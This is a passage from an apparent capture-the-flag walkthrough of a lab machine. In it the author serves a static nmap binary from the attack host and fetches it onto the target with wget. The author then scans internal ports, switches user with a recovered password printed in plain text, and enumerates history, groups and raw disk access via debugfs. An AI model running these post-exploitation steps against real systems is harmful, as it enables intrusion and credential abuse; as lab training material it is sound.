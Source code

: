 Let’s upload a static nmap binary and see what ports are opened on 10.0.3.1

```bash
#on attack host
python3 -m http.server 8001

#on target
wget http://10.10.16.7:8001/static_nmap
chmod +x static_nmap
./static_nmap 10.0.3.1

PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8080/tcp open  http-alt
```

There is an ssh. Let’s attempt to ssh in:

```bash
ssh atanas@10.0.3.1  #did not work
ssh Administrator@10.0.3.1
```

None of the credentials we got worked. Let query its domain, performing a reverse lookup

```bash
dig @10.0.3.1 -x 10.0.3.1

```

Did not work.

Let’s just try su from our reverse shell:

```bash
su atanas
```

It worked. The correct credential was:

```bash
atanas:f16tomcat!
```

Checking atanas’ history and enumerating basic info:

```bash
cat .bash_history

history
exit
groups
debugfs /dev/sda1

id
uid=1000(atanas) gid=1000(atanas) groups=1000(atanas),4(adm),6(disk),24(cdrom),30(dip),34(backup),46(plugdev),115(lpadmin),116(sambashare)

sudo -l

Sorry, user atanas may not run sudo on kotarak-dmz.
```
